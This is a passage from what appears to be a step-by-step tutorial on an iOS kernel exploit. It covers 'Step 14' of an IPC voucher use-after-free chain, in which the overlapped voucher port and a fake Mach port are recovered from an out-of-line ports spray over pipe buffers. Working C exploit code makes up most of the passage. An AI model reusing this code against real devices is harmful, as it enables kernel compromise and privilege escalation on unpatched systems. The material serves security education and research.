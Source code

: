     	}
{% endhighlight %}
#### Step 14: Identify Voucher Port and overlapping fake port

Now since the freed voucher (which is actually overlapped with port pointers) has an **iv_refs** pointer pointing to somewhere within the pipe buffers, we need to find out which of the **1024** pipe buffers is it. In order to do that, we receive the messages that we sent earlier using **OOL** Ports descriptor. We loop through all the descriptors in the message and pass them to a handler block with the parameter as the starting ports address and the total number of ports. Then we loop through each of these port pointers as vouchers using a helper function **iterate_ipc_vouchers_via_mach_ports** that gives out address of all possible vouchers by dividing the size of all port pointers by voucher size. The **ool_voucher_port** can be identified because it will have a valid voucher port, since we called **thread_get_mach_voucher()** only on that voucher, and also by checking against **uaf_voucher_port** at an offset of **7** when looping as port pointers, since its **7*8** which is 56 bytes (offset of **iv_port**) in the voucher struct. The fake port is identified simply as the value pointing to the **iv_refs** which is at an offset of **0x8** and hence index **1** when using port pointers.

{% highlight c %}
    // 14\. Now receive the OOL ports and recover our voucher port and the fake port that
    	// overlaps our pipe buffers. This is where we're most likely to panic if the port/pipe
    	// groom failed and the overlapping OOL port pointer does not point into our pipe buffers.
    	INFO("receiving the OOL ports will leak port 0x%x", base_port);
    	fake_port = MACH_PORT_NULL;
    	ool_ports_spray_receive(ool_holding_ports, ool_holding_port_count,
    			^(mach_port_t *ool_ports, size_t count) {
    		if (count != ool_port_count) {
    			ERROR("unexpected OOL ports count %zu", count);
    			return;
    		}
    		// Loop through each of the possible voucher positions in the OOL ports looking for
    		// a sign that this is where the voucher overlaps.
    		iterate_ipc_vouchers_via_mach_ports(count, ^(size_t voucher_start) {
    			// We're checking to see whether index 7 (which was MACH_PORT_NULL when we
    			// sent the message) now contains a port. If it does, that means that this
    			// segment of the OOL ports overlapped with the freed voucher, and so when
    			// we called thread_get_mach_voucher() above, the iv_port field was set to
    			// the newly allocated voucher port (which is what we're receiving now).
    			mach_port_t ool_voucher_port = ool_ports[voucher_start + 7];
    			if (ool_voucher_port != MACH_PORT_NULL) {
    				INFO("received voucher port 0x%x in OOL ports", ool_voucher_port);
    				INFO("voucher overlapped at offset 0x%zx",
    						voucher_start * sizeof(uint64_t));
    				if (ool_voucher_port != uaf_voucher_port) {
    					ERROR("voucher port mismatch");
    				}
    				if (fake_port != MACH_PORT_NULL) {
    					ERROR("multiple fake ports");
    				}
    				fake_port = ool_ports[voucher_start + 1];
    				ool_ports[voucher_start + 1] = MACH_PORT_NULL;
    				INFO("received fake port 0x%x", fake_port);
    			}
    		});
    	});
    	// Make sure we got a fake port.
    	if (!MACH_PORT_VALID(fake_port)) {
    		if (fake_port == MACH_PORT_NULL) {
    			ERROR("did not receive a fake port in OOL ports spray");
    		} else {
    			ERROR("received an invalid fake port in OOL ports spray");
    		}
    		fail();